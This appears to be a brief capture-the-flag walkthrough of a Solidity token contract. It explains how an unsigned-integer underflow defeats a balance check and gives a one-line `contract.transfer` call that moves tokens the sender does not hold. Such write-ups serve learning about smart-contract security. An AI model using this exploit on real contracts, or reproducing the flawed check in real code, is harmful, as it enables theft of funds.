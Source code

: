 #  As long as `msg.sender` has some ETH, `require(balances[msg.sender] - _value >= 0);` will always be true due to unsigned integer's overflow. Therefore, I can use the transfer function and send money to any address!

`contract.transfer('0x52E84E4D7b64B5587ABfaf2f98F133726553FA13', 21000000)`